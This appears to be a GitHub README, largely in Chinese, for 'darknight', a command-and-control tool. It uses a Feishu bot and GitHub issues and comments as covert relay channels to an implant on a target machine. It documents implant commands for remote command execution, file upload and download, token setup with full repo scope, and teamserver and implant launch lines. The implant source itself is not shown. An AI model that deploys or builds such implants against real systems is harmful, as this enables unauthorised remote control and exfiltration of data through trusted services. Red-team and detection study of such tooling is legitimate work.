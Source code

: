 # darknight
**A C2 tool hidden in the darknight**

# 简略架构图

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017111505.png" alt="image-20241017111505799" style="zoom:50%;" />

# 飞书

## 创建bot&配置权限

> https://open.feishu.cn/app/
>
> 后续补充

## 命令大全

>- help : show this help menu
>- start : start the feishu-implant
> - pwd : print working directory
> - whoami : get username
> - cmd \<command\> : execute command
> - upload <remote_file_name> : upload local file to the feishu-implant if your previous message is file
> - download <remote_file_name> : download remote_file of feishu-implant to current local feishu
> - exit : kill the connection with the feishu-implant

## 使用示例

>将飞书当作服务端，群组当作客户端，feishu-implant就是注入端，直接将 implant 放在靶机上面运行即可！
>
>implant 在靶机上运行后，我们需要在飞书群组输入 start 命令启动交互！

启动然后执行命令：

<img src="https://aliyunoss.sakura501.top/img/2024/10/19/20241019014409.png" alt="image-20241019014409647" style="zoom: 25%;" />

下载文件：

<img src="https://aliyunoss.sakura501.top/img/2024/10/19/20241019014516.png" alt="image-20241019014516163" style="zoom:25%;" />

上传文件，**注意需要 upload xxxx 的上一条消息必须是一个文件**：

<img src="https://aliyunoss.sakura501.top/img/2024/10/19/20241019014807.png" alt="image-20241019014807458" style="zoom:25%;" />

# github

## 获取github-token(classic)

进入设置

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017110836.png" alt="image-20241017110828736" style="zoom: 25%;" />

 进入开发者设置

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017110936.png" alt="image-20241017110935958" style="zoom:25%;" />

在token(classic)中选择generate new token

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017111054.png" alt="image-20241017111054689" style="zoom:25%;" />

填写名字、生效日期、以及勾上repo的所有权限，然后创建token即可，注意token只在创建时显示一次，注意保存

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017111243.png" alt="image-20241017111243628" style="zoom:25%;" />

最后的token形式大概是ghp_xxxxxxxx这样的

## 使用教程

> github相当于中间代理服务端，只需要用到api；
>
> teamserver是服务端/客户端，放在attacker上运行；
>
> implant是注入端，放在靶机上面运行；
>
> 运行过程：
>
> - teamserver输入命令，调用github-api发送新的issue标题包含该命令；
>
> - implant会执行轮询获取新的issue的标题，获取到新的命令；
> - implant执行命令获取结果，加密该结果后返回给github，调用github-api向原issue的评论写入该结果；
> - teamserver轮询检测到新的评论写入，获取加密结果进行解密，输出到控制台；

## teamserver和implant启动

```
# 需要在启动攻击机上启动teamserver，靶机上启动implant注入端
teamserver <AccessToken> <Username> <Repository>
implant <AccessToken> <Username> <Repository>
# 例如：
./teamserver ghp_xxxxxxxxx Sakura-501 github-c2-test
./implant ghp_xxxxxxxxx Sakura-501 github-c2-test
```

## 命令大全

- help：帮助手册

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017112501.png" alt="image-20241017112501343" style="zoom:50%;" />

- pwd：当前工作目录；
- whoami：当前用户名；
- cmd \<command\>：执行command命令；
- upload <local_file_path> <remote_file_name>：teamserver先上传本地文件local_file_path到github，并命名为remote_file_name，然后下载该remote_file_name到implant当前的工作目录；
- download <remote_file_name> <local_file_path>：implant先上传本地文件local_file_path到github，并命名为remote_file_name，然后下载该remote_file_name到teamserver当前的工作目录；
- exit：切断与implant的连接，终止implant进程运行；